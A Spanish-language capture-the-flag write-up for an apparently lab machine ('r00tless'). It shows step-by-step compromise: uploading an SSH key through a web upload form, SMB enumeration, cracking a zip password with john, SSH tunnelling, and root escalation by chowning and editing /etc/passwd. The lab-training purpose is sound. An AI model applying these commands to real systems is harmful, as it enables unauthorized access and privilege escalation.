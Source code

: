 nmap: 80,22,139,445

![image](https://github.com/user-attachments/assets/c93e0c93-23ce-460d-b526-85e968e6f4ec)

---
en la pagina principal nos da:

![image](https://github.com/user-attachments/assets/fcc9059f-34dc-4407-a66f-0ffb9b1e35fe)

hacemos un gobuster:

![image](https://github.com/user-attachments/assets/3c562d69-2edd-486b-a1fd-1d4009b5bff6)

nos dio upload.php

![image](https://github.com/user-attachments/assets/4d4f493c-43c8-4824-b9c2-f362aa2990d4)

vuelvo hacer un gobuster pero agrego un .txt

![image](https://github.com/user-attachments/assets/3aab916e-3450-485c-8729-844555a092dd)

entramos y nos da

![image](https://github.com/user-attachments/assets/eabd553b-6926-48d4-ad8a-07d14d14bdf8)

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, nos faltaría usuarios 

pero podemos enumerar con: 
> enum4linux 172.18.0.2

nos da:

![image](https://github.com/user-attachments/assets/922a3b0b-ee7e-4809-bf6d-55356c4e5565)

creamos un id_rsa 

    ssh-keygen -t rsa -b 4096

![image](https://github.com/user-attachments/assets/3abfabf0-f121-40d6-987e-86224e2cba2f)

nos dara: id_rsa  id_rsa.pub  

pasamos la clave a un authorized_keys

![image](https://github.com/user-attachments/assets/8ab00440-e29b-4c45-b999-d7b5cb3914d4)

le damos permisos: 
> chmod 600 id_rsa 

subimos el authorized_keys

![image](https://github.com/user-attachments/assets/bdc38c49-08c0-4727-abc3-53421d68aab4)

ahora en el terminal colocamos: 
>  ssh passsamba@172.18.0.2 -i id_rsa

 estamos dentro

![image](https://github.com/user-attachments/assets/e3f79d3c-7b47-433b-b866-849bcbae20db)

al hacer un "ls", nos da esto:
>cat note.txt

![image](https://github.com/user-attachments/assets/02e6ce37-d644-425f-ba73-bd0b01b4a1a4)

por la similitud  con  un nombre de usuario, probamos como contraseña:
> su sambauser / sambaarribasiempre

y ahora somos sambauser

como no hay nada, encontré para ver posibles directorios:

    smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2

![image](https://github.com/user-attachments/assets/c56356f7-e265-4009-b2be-75228b56496c)

nos dio dos:
> read_only_share

nos conectamos como clientes.

    smbclient //172.18.0.2/read_only_share -U sambauser -W workgroup  

la contraseña es la misma y dentro nos pasamos con get el zip que hay

![image](https://github.com/user-attachments/assets/4078231a-b32e-45f9-a536-865b0c8d77e4)

como pide contraseña la sacamos:

    zip2john secret.zip > hash.txt 
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
    
> contraseña: qwert

![[dockerlabs/dificil/r00tless/hash.png]]

le colocamos al txt cat y nos da:
> root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==

en la misma terminal colocamos:
> echo "cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==" | base64 -d

nos da la contraseña

![[dockerlabs/dificil/r00tless/zip.png]]

entramos por ssh en una terminal y colocamos la contraseña con el usuario "root-false"

dentro hay un: message.txt que dice:

![[pinguino1.png]]

encontramos esto

![[curl1.png]]

ejecutamos el comando

     curl -vvv -d 'username=mario&password=pinguinodemarioelmejor' http://10.10.11.5

lo que lanzamos es lo del mensaje que vimos 

![[curl3.png]]

lanzamos:

     curl -vvv http://10.10.11.5/super_secure_page/admin.php/

si se hace un: curl -v 10.10.11.5
nos mostrara código de una pagina que contiene un login en el puerto 80

hacemos este comando: 
> ssh root-false@172.18.0.2 -L 9090:10.10.11.5:80

y nos conectaremos otra vez

![[dockerlabs/dificil/r00tless/conexion2.png]]

nos vamos a firefox y buscamos esto:
> http://127.0.0.1:9090/

no me funciono pero del codigo anterior vi un "ultramegatexto.txt", lanzamos el siguiente comando

    curl http://10.10.11.5/ultramegatextosecret.txt


nos dio:

![[ultra.png]]

nos dará la pagina de login - admin
en el texto hay parte que me llamo la atención que parece contraseña que dice:
> Cristal_de_la_Aurora

la probamos en el usuario less que sale al final del texto.
y somos el usuario less 
al hacer sudo -l nos da: chown

![[conexion3.png]]

buscando encontré que podemos cambiar al propietario de la carpeta /etc/passwd
con este comando: 

    sudo chown less:less /etc/passwd

ahora hacemos un:

    nano /etc/passwd

![[Pasted image 20250115194824.png]]

![[dockerlabs/dificil/r00tless/cat.png]]

le quitamos la "x" a root 
guardamos y ejecutamos

![[dockerlabs/dificil/r00tless/root.png]]

su root
somos root! 
